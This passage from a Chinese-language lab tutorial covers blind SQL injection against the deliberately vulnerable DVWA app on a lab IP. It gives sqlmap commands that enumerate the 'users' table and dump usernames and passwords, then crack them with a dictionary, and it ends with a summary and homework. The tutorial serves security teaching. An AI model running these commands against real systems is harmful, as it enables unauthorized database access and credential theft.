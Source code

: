 得知数据表的名称，当然我们将进一步获取表中表项的内容了：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users --columns
```

![show-columns](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354198634.png/wm)

既然都看到表项了，当然要看看具体数据：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users -C "user,password" --dump
```

进过几番的询问，我们都确认，此时 sqlmap 会通过默认放在本地的字典为我们破解数据库中的密码，使其明文显示，因为通过字典匹配所以需要一定的时间：

![show-password](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354217960.png/wm)

可以尝试着使用我们破解出来的用户名与密码登陆一番，看是否能够正常的登陆。

## 6. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- SQL 盲注简介
- SQL 盲注之延时注入
- SQL 注入利器 sqlmal 的初步使用

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 7. 作业

1. 使用 Mutillidae 环境完成类似的实验。